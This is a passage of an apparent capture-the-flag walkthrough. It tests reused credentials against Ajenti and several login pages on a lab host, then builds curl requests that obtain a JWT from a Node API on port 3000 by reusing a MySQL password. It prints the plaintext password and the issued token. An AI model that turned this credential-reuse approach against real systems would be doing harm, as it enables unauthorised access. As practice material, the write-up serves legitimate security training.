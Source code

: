 Our first point to attack is port `8000`, as it's the most critical. After a bit of research the default credentials to Ajenti appear to be `root` for a username and `admin` for a password, but these do not work in this case. None of our potential users in combination with our MySQL password, authenticate us on Ajenti. Now we move on to the other services. After trying our list of potential users and password on port `8000` first, `/login.php` second, and `/management` third, we've not succeeded to login to any of them.

Port `3000` requires we craft some headers properly in order to attempt to authenticate, and out of laziness it's the last on the list of login pages to try our credentials on.

### JSON Web Tokens
When we attempt to visit port `3000` we're given the following response indicating we're not authenticated.
```JSON
{"success":false,"message":"Auth token is not supplied"}
```

When we sent a GET request to the the `/login` endpoint we're returned text asking us to authenticate.
```console
root@kali:/media/sf_Research# curl http://10.10.10.137:3000/login
"please auth"
```

If we try and emulate a form, we see that the `/login` endpoint returns us `bad request`.
```console
root@kali:/media/sf_Research# curl -F "username=root" -F "password=Zk6heYCyvZk6heYCyv6ZE9Xcg" -X POST http://10.10.10.137:3000/login
Bad Request
```


Some [brief research](https://medium.com/hyphe/token-based-authentication-in-node-6e8731bfd7f2) on NodeJS and JSON tokens shows us how to craft the proper header. Now, we're getting a `forbidden` response. This seems like our query is correct now, but our credentials are not.


```console
root@kali:/media/sf_Research# curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"root","password":"Zk6heYCyv6ZE9Xcg","rememberMe":true}' http://10.10.10.137:3000/login
Forbidden
```

Intuition was key to success here, as the username `admin` appears to also use the MySQL root password we've previously found. Had we not added this to our list of usernames, we'd have been dead in the water. We see below that we're given the JWT to authenticate us on port `3000`.

```console
root@kali:/media/sf_Research# curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg","rememberMe":true}' http://10.10.10.137:3000/login
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI"}r
```
